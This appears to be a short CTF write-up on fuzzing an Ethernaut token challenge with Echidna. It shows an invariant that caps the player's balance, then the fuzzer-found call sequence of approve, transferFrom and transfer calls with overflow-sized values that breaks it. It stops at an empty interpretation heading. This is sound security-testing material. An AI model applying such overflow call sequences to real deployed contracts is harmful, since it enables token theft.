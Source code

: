 ## What did echidna find when testing the Ethernaut challenge?

### What was it testing?
The specific invariant being checked was the player's balance. In order to break the CTF we needed to violate the condition of a user's balance limit of 1,000,000, therefore this was the function:
```
    function echidna_isCompleted() public view returns (bool) {

        return balanceOf[player] <= 1000000;
    }
```

### Echidna results
The tool found this path to achieve the condition violation:
```
Call sequence:
   approve(0x20000,167133266616215219087984434971341992939411184825004473792248855581927478929) from: 0x0000000000000000000000000000000000030000 Time delay: 440097 seconds Block delay: 127
   transferFrom(0x30000,0xffffffff,671) from: 0x0000000000000000000000000000000000020000 Time delay: 355645 seconds Block delay: 32767
   transfer(0x10000,115792089237316195423570985008687907853269984665640564039457584007913129638936) from: 0x0000000000000000000000000000000000020000 Time delay: 297507 seconds Block delay:    
   transfer(0x30000,71834082248646112960033315906464535836812324211014610942410955687412905560741) from: 0x0000000000000000000000000000000000010000 Time delay: 358061 seconds Block delay: 33200
```

### Results interpretation
